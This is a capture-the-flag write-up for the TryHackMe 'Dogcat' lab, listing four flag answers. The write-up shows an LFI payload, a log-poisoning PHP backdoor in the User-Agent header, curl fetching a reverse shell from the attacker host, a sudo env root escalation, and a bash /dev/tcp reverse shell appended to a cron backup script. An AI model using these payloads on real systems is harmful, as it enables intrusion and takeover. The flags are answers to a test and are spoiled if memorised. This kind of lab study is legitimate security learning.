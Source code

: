 # DOGCAT

> - **What is flag 1?**
>> THM{Th1s_1s_N0t_4_Catdog_ab67edfa}

Vulnerable to LFI with php LFI. Navigate to `http://10.10.252.71/?view=php://filter/convert.base64-encode/resource=dog/../flag` then base64 decode the text.

> - **What is flag 2?**
>> THM{LF1_t0_RC3_aec3fb}

Accessing to `/var/log/apache2/access.log` show that it includes our user agent. We can  forge our user agent and use it as a RCE. Using `curl http://$IP -H "User-agent : <?php system(\$_GET['c']); ?> "` to inject our backdoor into it. Then we can execute command just by navigating to `http://$IP/?view=dog/../../../../../var/log/apache2/access.log&ext=&c=<command here>`\
Running `curl -h` shows that we have curl installed. So we set up a server on our host machine. Then using `curl -o shell.php http://<host ip>:<host port>/<rev shell filename>` on the remote machine to upload a php reverse shell onto the machine.Set up a listener on host machine then navigate to `http://$IP/?view=dog/../shell`

> - **What is flag 3?**
>> THM{D1ff3r3nt_3nv1ronments_874112}

Running `sudo -l` shows we can run `env` as sudo. Just simply run `sudo env /bin/bash` will gives us root access.

> - **What is flag 4?**
>> THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}

Further enumerating we found that there is a .docker on the machine. Meaning we are in a docker environment. Breaking out of it should gives us last flag. Exploring around we found a backups in /opt. Inside has a backup.sh file. This should be the file that is run by the outside to backup the docker. `echo "bash -i >& /dev/tcp/10.11.7.208/9002 0>&1" >> backup.sh` adds a new command into backup.sh so when it is run we can get a reverse shell. Now just set up a listener on our host machine and wait for a minute.
